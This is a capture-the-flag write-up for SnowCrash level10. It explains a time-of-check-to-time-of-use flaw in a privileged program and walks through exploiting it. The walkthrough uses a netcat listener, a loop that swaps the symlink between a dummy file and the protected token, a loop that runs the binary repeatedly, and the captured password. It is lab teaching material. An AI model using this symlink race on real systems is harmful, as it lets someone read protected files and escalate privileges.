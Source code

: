 We start by exploring the files in the directory and find an executable named `level10` and a file named `token`.

```
level10@SnowCrash:~$ ls
level10  token
```

Running `./level10` shows that it expects a file and a host as arguments.

```
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```

Attempting to directly read `token` returns "Permission denied."

```
level10@SnowCrash:~$ cat token
cat: token: Permission denied
```

Attempting to send `token` to `127.0.0.1` also fails due to lack of access.

```
level10@SnowCrash:~$ ./level10 token 127.0.0.1
You don't have access to token
```

---

## Explanation of TOCTOU (Time of Check to Time of Use)

This vulnerability occurs when a program checks permissions or access rights at one time but uses the resource later, potentially allowing an attacker to change the resource between the check and the use. By changing the resource at the right time, an attacker can bypass permissions.

In this case, the `level10` program checks for access on the symbolic link `/tmp/t2` before reading it. If we change `/tmp/t2` to point to `token` after the check but before the read, we can bypass the restriction.

### Setting Up the Exploit

1. **Setting Up a Listener**:

   - We start `netcat` to listen on port `6969`, where we’ll receive the content of `token`.

   ```
   level10@SnowCrash:~$ nc -lk 6969
   ```

2. **Creating an Initial Temporary File**:

   - We create a dummy file `/tmp/t1` to serve as the initial target for `level10`'s access check.

   ```
   level10@SnowCrash:~$ touch /tmp/t1
   ```

3. **Automating the Symlink Switch**:

   - We create a loop that alternates `/tmp/t2` to point to `/tmp/t1` and `~/token` in rapid succession.

   ```
   level10@SnowCrash:~$ $(while true; do ln -sf /tmp/t1 /tmp/t2; ln -sf ~/token /tmp/t2; done)&
   [1] 8939
   ```

   - Here, `ln -sf` creates symbolic links, and we swap `/tmp/t2` between pointing to `/tmp/t1` (which we have access to) and `token` (which we do not).

4. **Executing `level10` in a Loop**:

   - We run `level10` in a loop, using `/tmp/t2` as the file argument, which occasionally points to `token` during the execution.

   ```
   level10@SnowCrash:~$ $(while true; do ~/level10 /tmp/t2 127.0.0.1; done)&
   [2] 25697
   ```

   - When `level10` checks `/tmp/t2` and finds it pointing to `/tmp/t1`, it proceeds, and if the link switches to `token` at the right moment, it sends `token`'s content to `127.0.0.1`.

5. **Receiving the Flag**:

   - Returning to our `nc` listener, we capture the flag output sent by `level10`:

   ```
   level10@SnowCrash:~$ nc -lk 6969
   .* ( ) *.
   .* ( ) *.
   .* ( ) *.
   woupa2yuojeeaaed06riuj63c
   ```

---

### Final Steps

Using the captured token to switch to the `flag10` user:

```
level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
```

After switching users, running `getflag` retrieves the flag:

```
flag10@SnowCrash:~$ getflag
Check flag.Here is your token :
```

This completes the exploit for Level10.
